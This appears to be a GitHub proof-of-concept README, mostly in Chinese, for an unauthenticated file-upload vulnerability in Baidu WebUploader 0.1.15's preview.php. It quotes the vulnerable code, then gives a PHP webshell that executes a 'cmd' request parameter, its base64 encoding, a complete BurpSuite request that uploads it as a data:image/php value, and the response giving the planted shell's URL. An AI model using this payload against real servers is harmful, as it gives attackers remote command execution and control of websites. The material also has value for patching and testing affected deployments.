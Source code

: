 # webuploader-v-0.1.15 组件存在文件上传漏洞(未授权)

#### 简介：百度WebUploader组件存在文件上传漏洞。该漏洞是由于WebUploader组件上传页面对文件类型或文件扩展名过滤不严所致，攻击者可利用漏洞直接上传或简单绕过限制上传脚本文件，执行系统命令，获取网站服务器权限。

#### server/preview.php
```
if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) {

    $previewUrl = sprintf(
        "%s://%s%s",
        isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
        $_SERVER['HTTP_HOST'],
        $_SERVER['REQUEST_URI']
    );
    $previewUrl = str_replace("preview.php", "", $previewUrl);


    $base64 = $matches[2];
    $type = $matches[1];
    if ($type === 'jpeg') {
        $type = 'jpg';
    }

    $filename = md5($base64).".$type";
    $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;

    if (file_exists($filePath)) {
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    } else {
        $data = base64_decode($base64);
        file_put_contents($filePath, $data);
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    }
```
## 0x00 python usage
`python exp.py http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`

![](./webuploader.jpg)

#### php_webshell

```
<?php
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
    phpinfo();
?>
```

#### base64 encode

```
PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=
```

## 0x01 POST upload php webshell

`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`
![](./burpsuite.jpg)
#### BurpSuite Requests
```
POST /webuploader-0.1.15-Demo/server/preview.php HTTP/1.1
Host: 192.168.2.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 298
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

data:image/php;base64,PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=

```
#### BurpSuite Response
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 05:40:48 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a
X-Powered-By: PHP/5.5.9
Connection: close
Content-Type: text/html
Content-Length: 142

{"jsonrpc" : "2.0", "result" : "http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php", "id" : "id"}
```

#### webshell
`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php`

![](./phpinfo.jpg)

![](./cmd.jpg)

### 参考链接

https://www.cnvd.org.cn/flaw/show/CNVD-2018-26054

payload form 圈子
